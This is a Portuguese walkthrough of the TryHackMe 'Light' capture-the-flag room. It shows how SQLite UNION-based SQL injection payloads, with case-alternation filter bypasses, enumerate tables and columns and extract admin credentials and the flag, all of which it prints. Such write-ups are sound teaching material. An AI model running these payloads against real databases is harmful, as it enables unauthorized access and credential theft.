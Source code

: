 # Room - Light - TryHackMe 
Autor: carlossb1\
Level: Easy\
Tópico: SQL Injection

# Introdução
![image](https://github.com/user-attachments/assets/f22b9991-a50b-4283-9875-63043ec6dc2f)


Ao conectar no servidor, somos recebidos com um campo para inserir um username. Usando o username que o desafio fornece no enunciado, o servidor nos retorna senha desse usuário.

![image](https://github.com/user-attachments/assets/e3b8289d-fc2e-4437-8fd7-90fbf1a81bd2)


A primeira ideia foi tentar conectar via SSH com essas credenciais, mas não foi possível.

![image](https://github.com/user-attachments/assets/227af177-d11b-4a4d-9c71-8390642ef480)

Como o enunciado sugere que é um sistema de banco de dados, a segunda aproximação envolveu verificar se o sistema é vulnerável a ataques de SQL Injection.

Utilizando alguns dos payloads encontrados no [repositório do payloadbox](https://github.com/payloadbox/sql-injection-payload-list), e baseado nas mensagens de erro, foi possível identificar que o engine usado no banco de dados era o SQLite

Testando o payload `' UNION SELECT 1+1'` foi exibida uma mensagem indicando que existem filtros para algumas expressões e caracteres.

Felizmente as expressões do SQLite não são case-sensitive, então ao tentar alternar os caracteres entre maiúsculos e minúsculos, conseguimos bypassar o filtro e executar as operações normalmente.

`' UnIoN SeLeCt 1+1 '`

retornou o resultado: 2, indicando que o código estava sendo de fato executado pelo banco de dados.

![image](https://github.com/user-attachments/assets/67bc00e4-32bb-415c-8ba9-029551c7bca5)

A partir daí, o foco é em enumerar as informações das tabelas. Para isso, vamos prosseguir com o método de ataque utilizando as expressões `UNION` [SQL INJECTION UNION ATTACKS - PORTSWIGGER](https://portswigger.net/web-security/sql-injection/union-attacks)

Conforme a [documentação](https://www.sqlite.org/schematab.html) do SQLite, em todos os bancos de dados que utilizam essa engine, vai existir uma tabela que contém algumas 
informações sobre todas as outras tabelas.

CREATE TABLE sqlite_schema(
  type text,
  name text,
  tbl_name text,
  rootpage integer,
  sql text
);`

Podendo receber esses nomes alternativos: 
    sqlite_master
    sqlite_temp_schema
    sqlite_temp_master 


Seguindo nosso procedimento para conseguir as informações, podemos utilizar o payload
`' UNiON SeLect name FROM sqlite_master '`

![image](https://github.com/user-attachments/assets/9c8fe118-20d6-4ed5-8098-9e788bfa805e)

Descobrimos a tabela admintable

Agora podemos fazer o mesmo processo dentro dessa tabela.
Para descobrir o nome das colunas, podemos realizar a consulta à estrutura pragma_table, conforme exemplificado nesse [post do fórum do SQLite](https://sqlite.org/forum/info/9add3c3898aed7c4)

`' UnIoN SeLect name from pragma_table_info('admintable') '`
Primeira coluna: id

`' UnIoN SeLect name from pragma_table_info('admintable') where name != 'id`
Segunda coluna: password

`' UnIon SeLect name from pragma_table_info('admintable') where name != 'id' and name != 'password`
Terceira coluna: username

![image](https://github.com/user-attachments/assets/9fa1dbb6-63de-4cde-b674-569dbb22317e)

# Verificando os usernames
`' UnIon SeLect username from admintable ' `
user : *TryHackMeAdmin*

`' UnIoN SeLeCt password from admintable where username = 'TryHackMeAdmin`
senha : *mamZtAuMlrsEy5bp6q17*

![image](https://github.com/user-attachments/assets/5a91292a-f4e1-4713-94af-d967347c56c2)

Vamos tentar realizar o acesso via SSH com essas credenciais, mas novamente, não foi possível.

![image](https://github.com/user-attachments/assets/285923c5-f07a-46aa-bc91-a6c8b9176c98)

Realizando uma nova consulta ao banco de usuários <br>
`' UnIon SeLect username from admintable where username != 'TryHackMeAdmin`

Olha ela aí!, encontramos o usuário *flag* agora vamos ver se a flag está na senha <br>
`' UnIoN SeLeCt password from admintable where username = 'flag`

![image](https://github.com/user-attachments/assets/cabcb408-fc4e-4a13-9cfa-4622a0c4a644)

E Foi!
Encontramos a flag
THM{SQLit3_InJ3cTion_is_SimplE_nO?}

